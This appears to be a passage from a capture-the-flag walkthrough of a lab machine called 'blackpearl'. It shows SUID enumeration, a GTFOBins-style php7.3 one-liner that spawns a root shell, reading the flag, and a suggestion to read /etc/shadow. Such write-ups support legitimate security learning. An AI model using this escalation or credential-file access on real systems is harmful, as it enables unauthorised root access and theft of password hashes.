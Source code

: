 <aside>
💡 There are s permissions which means that we can run them as the root who is the owner

</aside>

<aside>
💡 Another way to find these SUID files is by the command

</aside>

```jsx
www-data@blackpearl:/tmp$ find / -type f -perm -4000 2>/dev/null   
find / -type f -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.3
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
www-data@blackpearl:/tmp$
```

<aside>
💡 This is good, we can go to GTFO bins and check for SUID shells. and we will check the
SUID part and check if any of the netries from the list exist here, and we do have php.

</aside>

```jsx
www-data@blackpearl:/tmp$ /usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
whoami
root
```

<aside>
💡 And boom, we have root

</aside>

cat the flag and we are done.

```jsx
cd /root
# ls
ls
flag.txt
# cat flag.txt
cat flag.txt
Good job on this one.
Finding the domain name may have been a little guessy,
but the goal of this box is mainly to teach about Virtual Host Routing which is used in a lot of CTF.
#
```

```jsx
To confirm access, we can actually cat /etc/shadow
```
